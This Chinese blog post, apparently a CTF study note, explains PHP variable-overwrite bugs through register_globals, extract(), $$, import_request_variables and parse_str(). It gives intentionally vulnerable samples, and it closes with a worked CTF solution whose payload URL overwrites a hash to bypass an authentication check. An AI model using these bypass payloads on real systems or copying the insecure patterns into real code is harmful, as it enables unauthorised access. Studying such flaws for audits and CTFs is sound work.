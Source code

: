 ```yaml
---
title: "PHP变量覆盖总结"
date: 2019-05-09T13:09:07+08:00
lastmod: 2019-05-09T13:09:07+08:00
draft: false
tags: ['ctf','php']
categories: ['code']
comment: true
---
```


最近做ctf遇到了很多次变量覆盖的问题，总结一下

<!--more-->

# register_global

全局变量注册，本特性已自 PHP 5.3.0 起**废弃**并将自 PHP 5.4.0 起**移除**。

当在php.ini开启register_globals= On时，代码中的参数会被用户提交的参数覆盖掉。

看例子

```php
<?php
echo "Register_globals: " . (int)ini_get("register_globals") . "<br/>";
if ($auth) {
    echo "覆盖！";
}else{
    echo "没有覆盖";
}
```

当访问`http://127.0.0.1/1.php`时输出`没有覆盖`

但是当请求`http://127.0.0.1/1.php?auth=1`时会覆盖掉`$auth`输出`覆盖`。
# extract()
从数组中将变量导入到当前的符号表
直接看代码
```php
<?php
$auth=false;
extract($_GET);

if ($auth){
    echo "over";
}
```
同样请求`http://127.0.0.1/1.php?auth=1`时会覆盖掉`$auth`输出`over`。
# `$$`
`$$`符号在php中叫做`可变变量`，可以使变量名动态设置。举个例子

```php
<?php
$a='hello';
$$a='world';
echo "$a ${$a}";
echo "$a $hello";
?>
```
可以看到在这里`${$a}`等同于`$hello`，接着我们再来看怎么来进行变量覆盖

```php
$auth=0;
foreach ($_GET as $key => $value) {
    $$key=$value;
}
echo $auth;
```
在第二行中遍历了全局变量`$_GET`，第三行将key当作变量名，把value赋值。
那么我们传入`http://127.0.0.1/1.php?auth=1`时会将`$auth`的值覆盖为1

# import_request_variables
将 GET／POST／Cookie 变量导入到全局作用域中，如果你禁止了 register_globals，但又想用到一些全局变量，那么此函数就很有用。那么和register_globals存在相同的变量覆盖问题。
```php
$auth = '0';
import_request_variables('G');
 
if($auth == 1){
  echo "over!";
}
```
同样传入`http://127.0.0.1/1.php?auth=1`时会将`$auth`的值覆盖为1，输出`over!`
# parse_str()
将字符串解析成多个变量
```php
$a='aa';
$str = "a=test";
parse_str($str);
echo ${a};
```
可以看出来将$str解析为`$a='test'`，与parse_str()类似的函数还有mb_parse_str()，不在赘述。

我们来看一道ctf题，在我[上一篇文章ISCC的web4](https://y4er.com/post/iscc-2019/#web4)中也提到了.

源代码
```php
<?php 
error_reporting(0); 
include("flag.php"); 
$hashed_key = 'ddbafb4eb89e218701472d3f6c087fdf7119dfdd560f9d1fcbe7482b0feea05a'; 
$parsed = parse_url($_SERVER['REQUEST_URI']); 
if(isset($parsed["query"])){ 
    $query = $parsed["query"]; 
    $parsed_query = parse_str($query); 
    if($parsed_query!=NULL){ 
        $action = $parsed_query['action']; 
    } 

    if($action==="auth"){ 
        $key = $_GET["key"]; 
        $hashed_input = hash('sha256', $key); 
        if($hashed_input!==$hashed_key){ 
            die("no"); 
        } 

        echo $flag; 
    } 
}else{ 
    show_source(__FILE__); 
}?>
```
在第五行将请求的URI通过`parse_url()`解析后赋值给`$parsed`变量。

在第八行将我们提交的`query`参数使用`parse_str`解析，这时就产生了变量覆盖的问题，我们可以通过query提交参数去覆盖变量。

接着往下看`$hashed_input!==$hashed_key`成立输出flag，此时`$hashed_input`我们可控，那么我们可以覆盖掉`$hashed_key`来使条件成立

`$hashed_input = hash('sha256', $key);`是sha256加密，那么我们可以传入`key=a`，此时`$hashed_input`等于`ca978112ca1bbdcafac231b39a23dc4da786eff8147c4e72b9807785afee48bb`。

然后覆盖`$hashed_key`，传入`query=&hashed_key=ca978112ca1bbdcafac231b39a23dc4da786eff8147c4e72b9807785afee48bb`覆盖掉。

这时payload为
```http
http://39.100.83.188:8066/?query=&hashed_key=ca978112ca1bbdcafac231b39a23dc4da786eff8147c4e72b9807785afee48bb&action=auth&key=a
```

拿到flag

# 总结
代码审计中变量覆盖还算好找，希望自己细心，也希望这篇文章对大家有用处。